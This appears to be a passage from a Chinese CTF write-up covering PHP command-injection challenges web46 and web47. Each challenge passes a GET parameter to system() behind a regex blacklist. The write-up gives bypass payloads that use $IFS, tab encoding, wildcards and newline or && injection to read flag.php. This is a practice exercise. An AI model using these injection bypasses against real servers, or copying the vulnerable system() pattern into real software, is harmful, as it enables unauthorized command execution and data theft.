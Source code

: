 加了个空格过滤

```cobol
${IFS}
$IFS$9
<
<>
```

```cobol
payload1:tac$IFS$9fla?.php%0a
payload2 tac$IFS$9fla?.php%26%26ls
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/5d9aac9d41f57be520bb64de27cc034a.png" alt="" style="max-height:192px; box-sizing:content-box;" />


## web46

```php
 
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤数字 $ 还有*



%09 是 tab的url编码

```perl
tac%09fla?.php%0a
tac%09fla?.php%26%26ls
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/f617fe70dfb0ea2ab742e23e6003db35.png" alt="" style="max-height:219px; box-sizing:content-box;" />


## web47

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```
